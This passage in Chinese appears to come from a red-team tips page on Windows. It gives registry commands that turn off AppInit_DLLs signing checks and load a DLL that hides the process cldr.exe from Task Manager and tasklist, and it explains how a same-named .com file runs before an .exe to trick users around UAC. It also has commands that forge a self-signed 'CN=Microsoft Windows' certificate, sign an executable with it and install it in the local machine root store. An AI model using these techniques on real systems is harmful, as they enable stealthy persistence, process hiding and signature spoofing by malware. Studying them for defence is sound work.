此时，任务管理器进程列表不存在cldr.exe，Process Explorer不存在cldr.exe，Tasklist.exe不存在cldr.exe

对于64位系统：

管理员权限：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldrx64.dll" /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldr.dll" /f
```

参考： 

[《利用globalAPIhooks在Win7系统下隐藏进程》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8globalAPIhooks%E5%9C%A8Win7%E7%B3%BB%E7%BB%9F%E4%B8%8B%E9%9A%90%E8%97%8F%E8%BF%9B%E7%A8%8B/)

---

### Tips 7. 同名exe和com文件执行顺序

如果一个路径下同时包含同名的exe和com文件，例如test.exe和test.com，通过命令行cmd输入test(不包含文件后缀名)，会优先运行com文件，即test.com

而COM文件的生成只需要把exe文件的后缀名改为com即可

参考： 

《A dirty way of tricking users to bypass UAC》

---

### Tips 8. Windows系统证书生成与注册

证书生成与签名：

```
makecert -n "CN=Microsoft Windows" -r -sv Root.pvk Root.cer
cert2spc Root.cer Root.spc
pvk2pfx -pvk Root.pvk -pi 12345678password -spc Root.spc -pfx Root.pfx -f
signtool sign /f Root.pfx /p 12345678password test.exe
```

执行后生成Root.cer、Root.pfx、Root.pvk、Root.spc四个文件，test.exe被加上数字签名

证书注册：

管理员权限cmd，将证书添加到localmachine：

```
certmgr.exe -add -c Root.cer -s -r localmachine root
```
